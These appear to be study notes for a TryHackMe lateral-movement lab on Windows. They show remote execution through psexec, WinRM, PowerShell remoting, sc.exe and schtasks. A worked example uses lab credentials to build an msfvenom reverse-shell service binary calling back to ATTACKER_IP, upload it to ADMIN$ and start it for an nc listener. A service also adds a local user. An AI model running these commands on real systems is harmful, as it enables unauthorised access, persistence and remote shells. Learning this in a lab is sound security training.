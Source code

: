## Psexec (psexesvc.exe)
- **Ports:** 445/TCP (SMB)
- **Required Group Memberships:** Administrators

Psexec has been the go-to method when needing to execute processes remotely for years. It allows an administrator user to run commands remotely on any PC where he has access. Psexec is one of many Sysinternals Tools and can be downloaded [here](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec).

The way psexec works is as follows:
1. *Connect to Admin$ share and upload a service binary*. Psexec uses `psexesvc.exe` as the name.
2. *Connect to the service control manager* to create and run a service named *PSEXESVC* and associate the service binary with `C:\Windows\psexesvc.exe`.
3. *Create some named pipes* to handle *stdin/stdout/stderr*.

![](Pasted%20image%2020241116001403.png)

To run psexec, we only need to supply the required *administrator credentials* for the remote host and the *command we want to run.*
```shell-session
psexec64.exe \\{MACHINE_IP} -u {Administrator} -p {Mypass123} -i cmd.exe
```


## WinRM (winrs.exe)
- **Ports:** 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Remote Management Users

Windows Remote Management (WinRM) is a web-based protocol *used to send Powershell commands to Windows hosts* remotely. Most *Windows Server installations have WinRM enabled by default*, making it an attractive attack vector.

To connect to a remote Powershell session from the command line, we can use the following command:
```shell-session
winrs.exe -u:{Administrator} -p:{Mypass123} -r:target cmd
```

We can achieve the same from Powershell, but to pass different credentials, we will need to create a *PSCredential* object:
```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

Once we have our *PSCredential* object, we can create an interactive session using the `Enter-PSSession` cmdlet:
```powershell
Enter-PSSession -Computername {TARGET} -Credential $credential
```

Powershell also includes the `Invoke-Command` cmdlet, which runs ScriptBlocks remotely via WinRM. Credentials must be passed through a *PSCredential* object as well:
```powershell
Invoke-Command -Computername {TARGET} -Credential $credential -ScriptBlock {whoami}
```


## sc (sc.exe)
- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCE/RPC)
    - 445/TCP (RPC over SMB Named Pipes)
    - 139/TCP (RPC over SMB Named Pipes)
- **Required Group Memberships:** Administrators

Windows services can also be leveraged to run arbitrary commands since they execute a command when started. While a service executable is technically different from a regular application, if we configure a Windows service to run any application, it will still execute it and fail afterwards.

We can create a service on a remote host with *sc.exe*, a standard tool available in Windows. When using sc, it will try to connect to the *Service Control Manager (SVCCTL)* remote service program through *RPC* in several ways:

1. *A connection attempt will be made using RPC/DCE.* 
	   The client will first connect to the Endpoint Mapper (EPM) at port 135, which serves as a catalogue of available RPC endpoints and request information on the SVCCTL service program. 
		   The EPM will then respond with the IP and port to connect to SVCCTL, which is usually a dynamic port in the range of 49152-65535.
	 ![](Pasted%20image%2020241116004617.png)
2. *If the latter connection fails, sc will try to reach SVCCTL through SMB named pipes, either on port 445 (SMB) or 139 (SMB over NetBIOS)*.
	 ![](Pasted%20image%2020241116004902.png)

We can create and start a service named "THMservice" using the following commands:
```shell-session
sc.exe \\{TARGET} create {THMservice} binPath= "net user {munra Pass123} /add" start= auto
sc.exe \\{TARGET} start {THMservice}
```
The "net user" command will be executed when the service is started, creating a new local user on the system. Since the operating system is in charge of starting the service, you won't be able to look at the command output.

To stop and delete the service, we can then execute the following commands:
```shell-session
sc.exe \\{TARGET} stop {THMservice}
sc.exe \\{TARGET} delete {THMservice}
```

## Scheduled Tasks
 You can create and run one remotely with schtasks, available in any Windows installation. To create a task named THMtask1, we can use the following commands:
 ```shell-session
schtasks /s {TARGET} /RU "SYSTEM" /create /tn {"THMtask1"} /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 

schtasks /s {TARGET} /run /TN {"THMtask1"} 
```

We set the schedule type (`/sc`) to ONCE, which means the task is intended to be run only once at the specified time and date. Since we will be running the task manually, the starting date (`/sd`) and starting time (`/st`) won't matter much anyway.

Since the system will run the scheduled task, the command's output won't be available to us, making this *a blind attack.*

Finally, to delete the scheduled task, we can use the following command:
```shell-session
schtasks /S {TARGET} /TN {"THMtask1"} /DELETE /F
```


## Example
Connecting to *THMJMP2* using the credentials assigned:
`ssh za\\<AD Username>@thmjmp2.za.tryhackme.com`

For this exercise, we will assume we have already captured some credentials with administrative access:
- **User:** ZA.TRYHACKME.COM\t1_leonard.summers
- **Password:** EZpass4ever

We'll show how to use those credentials to move laterally to *THMIIS* using `sc.exe`. Feel free to try the other methods, as they all should work against *THMIIS*.
	![](Pasted%20image%2020241116021722.png)
While we have already shown how to use sc to create a user on a remote system (by using `net user`), we can also upload any binary we'd like to execute and associate it with the created service. However, if we try to run a reverse shell using this method, we will notice that the reverse shell disconnects immediately after execution. The reason for this is that service executables are different to standard .exe files, and therefore non-service executables will end up being killed by the service manager almost immediately. Luckily for us, msfvenom supports the `exe-service` format, which will encapsulate any payload we like inside a fully functional service executable, preventing it from getting killed.

- generate the payload using msfvenom on our machine
```
user@AttackBox$ msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST={ATTACKER_IP} LPORT={4445} -o {myservice.exe}
```

-  use *t1_leonard.summers credentials* to upload our payload to the *ADMIN$* share of *THMIIS* using *smbclient* from our AttackBox:
```
user@AttackBox$ smbclient -c 'put {myservice.exe}' -U {user} -W ZA {'//thmiis.za.tryhackme.com/admin$/'} {password}
```

- starting a nc listener on specified port:
```shell-session
user@AttackBox$ nc -nvlp 4445
```

- create&start a new service remotely by using sc, associating it with our uploaded binary on THMJMP2: Command Prompt (As t1_leonard.summers):
```shell-session
C:\> sc.exe \\thmiis.za.tryhackme.com create {THMservice-3249} binPath= "%windir%\{myservice.exe}" start= auto
C:\> sc.exe \\thmiis.za.tryhackme.com start {THMservice-3249}
```

- receive connection on attacking machine